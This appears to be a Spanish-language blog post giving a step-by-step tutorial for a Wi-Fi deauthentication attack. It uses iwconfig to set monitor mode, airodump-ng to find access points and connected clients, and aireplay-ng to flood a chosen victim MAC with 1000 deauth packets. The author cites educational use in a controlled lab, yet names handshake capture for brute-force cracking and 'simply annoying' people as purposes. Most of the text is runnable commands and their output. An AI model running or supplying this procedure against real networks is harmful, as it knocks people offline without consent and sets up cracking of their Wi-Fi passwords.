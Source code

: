 ```yaml
---
layout: post
author: S3K0NDZ
title: Ataque Deauth
image: hhttps://openailabsprodscus.blob.core.windows.net/private/user-RJ092ajqZTaCrueBXYR9jJ3T/generations/generation-fqWHu0DC4lb7pSMch7jrfyMl/image.webp?st=2022-08-29T21%3A48%3A29Z&se=2022-08-29T23%3A46%3A29Z&sp=r&sv=2021-08-06&sr=b&rscd=inline&rsct=image/webp&skoid=15f0b47b-a152-4599-9e98-9cb4a58269f8&sktid=a48cca56-e6da-484e-a814-9c849652bcb3&skt=2022-08-29T22%3A25%3A22Z&ske=2022-09-05T22%3A25%3A22Z&sks=b&skv=2021-08-06&sig=GQbdIUT%2B53Av9fMb0tVQ/E%2BgfKZRFr8LSaVGSLwiCfQ%3D
description: Como realizar un ataque de desautenticación.
tipo: tecnicas
---
```

Hoy voy a describir el paso a paso de como realizar un deauther atack, estas pruebas están realizadas en un entorno controlado y se enseña con fines educativos. 

## Materiales

* Un adaptador de red wifi con posibilidad de actuar en modo monitor

## Herramientas

* iwconfig 
* airodump-ng 
* aireplay-ng

## Procedimiento

El primer paso es utilizar el comando ifconfig para ver que tenemos nuestro adaptador de red conectado correctamente, he sustituido por asteriscos cierta información sensible, esto no tiene mayor relevancia para la explicación.

```
wlxd037452a2463: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 2312
        inet 192.168.1.38  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 **********  prefixlen 64  scopeid 0x20<link>
        ether **********  txqueuelen 1000  (Ethernet)
        RX packets 10823  bytes 4687337 (4.4 MiB)
        RX errors 0  dropped 28  overruns 0  frame 0
        TX packets 2095  bytes 481408 (470.1 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Una vez hemos identificado nuestro adaptador procedemos a verificar en que modo está, para ello tenemos que usar el siguiente comando.

```
iwconfig (identificador de tu adaptador)
```

En mi caso: 
```
iwconfig wlxd037452a2463
```

Podemos ver como mi adaptador está en modo <b>managed</b>.
```
wlxd037452a2463  IEEE 802.11AC  ESSID:"MI SSID"
          Nickname:"<WIFI@REALTEK>"
          Mode:Managed  Frequency:5.18 GHz  Access Point: 
          MI MAC  
          Bit Rate:434 Mb/s   Sensitivity:0/0  
          Retry:off   RTS thr:off   Fragment thr:off
          Encryption key:****-****-****-****-****-****-****-****   
          Security mode:open
          Power Management:off
          Link Quality=81/100  Signal level=-48 dBm  Noise level=0 dBm
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0
```

Para cambiarlo a modo <b>monitor</b> es de la siguiente manera. 

```
iwconfig (identificador de tu adaptador) mode monitor
```

En mi caso.
```
iwconfig wlxd037452a2463 mode monitor
```

Ahora si hacemos un iwcofig podemos ver como ya se encuentra en modo monitor
```
wlxd037452a2463  IEEE 802.11AC  ESSID:"MI SSID"
          Nickname:"<WIFI@REALTEK>"
          Mode:Monitor  Frequency:5.18 GHz  Access Point: 
          MI MAC
          Bit Rate:434 Mb/s   Sensitivity:0/0  
          Retry:off   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off
          Link Quality=77/100  Signal level=-48 dBm  Noise level=0 dBm
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0
```

Vale una vez hecho esto vamos levantar el interfaz, para ello hacemos lo siguiente. 

```
ifconfig (identificador de tu adaptador) up 
```
En mi caso. 
```
ifconfig wlxd037452a2463 up 
```


Ahora vamos a usar la siguiente herramienta, que se llama <b>aerodump-ng
</b>
para ello vamos a escanear todas las AP y los clientes que están conectadas a las mismas. 
```
airodump-ng wlxd037452a2463
```
Vamos a ver que nos aparece lo siguiente.
```
CH  9 ][ Elapsed: 12 s ][ 2022-08-30 02:11 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

01:01:01:01:01:01   -76        0        2    0 100   -1   WPA              <length:  0>                                                                                     
01:01:01:01:01:01  -81         1        0    0  11 1733   WPA2 CCMP   PSK  **PRUEBA_REAL**                                                                                
01:01:01:01:01:01   -76        0        0    0  48 1733   WPA2 CCMP   PSK  **Prueba**                                                                                    
01:01:01:01:01:01   -82        1        1    0  44 1170   WPA2 CCMP   PSK  **Prueba**                                                                                  
01:01:01:01:01:01   -76        1        0    0  44 1733   WPA2 CCMP   PSK  **Prueba**                                                                                     
01:01:01:01:01:01   -76        1        0    0  44 1733   WPA2 CCMP   PSK  **Prueba**                                                                               
                                                               

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

01:01:01:01:01:01    01:01:01:01:01:01   -1     6e- 0      0        Prueba                                                                                                         
01:01:01:01:01:01    01:01:01:01:01:01   -53    0 - 1      0        2         Prueba                                                                                   
                                                                               
```

Por motivos de seguridad he censurado los ssid y las mac de las redes que aparecen. 

Ahora bien, tenemos todas las redes a las cuales podemos realizar un ataque, pero ¿a que cliente queremos desautenticar? y ¿como lo hacemos?

Bien para responder a estas dos preguntas, primero tenemos que aplicar un filtro para reconocer los potenciales clientes que nos interesan. 

```
airodump-ng 
--ssid 01:01:01:01:01:01 (BSSID de las estación que queremos filtrar, la tabla superior)           
--channel 11 (Ponemos el canal en el cual opera dicha estación)
 wlxd037452a2463(Nuestro adaptador de red)
```

```
airodump-ng --essid 01:01:01:01:01:01 --channel 11 wlxd037452a2463
```
Ahora veremos como en la parte inferior detectamos todos los dipositivos conectados a dicha red.

```
 CH 11 ][ Elapsed: 36 s ][ 2022-08-30 02:28 ][ display sta only

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 (not associated)   01:01:01:01:01:01  -83    0 - 6      0        2                     

```                                                                                     
Para desautenticar simplemente tendremos que usar la herramienta llamada aireplay-ng
              
``` 
aireplay-ng 

--deauth (Tipo de ataque)

1000 (Número de paquetes que queremos enviar)

-e Prueba (SSID de la estación víctima)

-c 01:01:01:01:01:01 (MAC víctima)

wlxd037452a2463 (Nuestro adaptador de red en modo monitor)
              
``` 

``` 
aireplay-ng --deauth 1000 -e Prueba -c 01:01:01:01:01:01 wlxd037452a2463

``` 

Una vez le damos a enter, se envia le número de paquetes de deauth que hemos establecido y mientras este proceso esté ejecutándose, el equipo víctima no se podrá conectar a la red, esta técnica sirve entre otras cosas por ejemplo para capturar el handshake para posteriormente romperlo con fuerza bruta o simplemente para molestar. 

Gracias por leer! 


